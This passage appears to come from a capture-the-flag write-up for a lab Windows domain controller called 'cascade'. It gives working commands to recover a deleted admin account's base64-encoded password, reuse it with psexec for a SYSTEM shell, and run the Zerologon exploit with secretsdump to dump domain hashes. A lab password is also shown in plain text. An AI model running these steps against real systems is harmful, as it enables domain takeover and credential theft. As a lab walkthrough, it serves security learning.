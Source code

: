 The `-E showDeleted` flag is the key to seeing the deleted objects. You have to turn on that extension for it to actually display them.

NOTE: the writeup provides a powershell one-liner to get the same data:

```powershell
Get-ADObject -ldapfilter "(&(objectclass=user)(DisplayName=TempAdmin)(isDeleted=TRUE))" -IncludeDeletedObjects -Properties *
```

Now to decrypt the TempAdmin password:

```sh
❯ echo YmFDVDNyMWFOMDBkbGVz | base64 -d
baCT3r1aN00dles
```

Because they said they reused the password, the administrator #credentials should be:
- `Administrator:baCT3r1aN00dles`

```sh
❯ impacket-psexec 'Administrator:baCT3r1aN00dles@cascade'
```

And we get a SYSTEM shell!


### Zerologon

I skipped over the Zerologon exploit, but here it is just for completeness:

```sh
# grab the exploit code (also need latest impacket installed)
❯ git clone https://github.com/dirkjanm/CVE-2020-1472
❯ cd CVE-2020-1472

# set DC machine account password to empty:
# args: NETBIOS_DC_NAME DC_ADDR
❯ python3 cve-2020-1472-exploit.py casc-dc1 cascade

# dump desired hashes from NTDS.dit with secretsdump
# must use DC$ machine account
❯ impacket-secretsdump 'cascade.local/casc-dc1$@cascade' -no-pass -just-dc -just-dc-user Administrator

# alternatively, dump with crackmapexec
❯ cme smb cascade -u 'casc-dc1$' -p '' --ntds
```



## proof

### user.txt

```powershell
ipconfig
type C:\Users\USERNAME\Desktop\user.txt
```
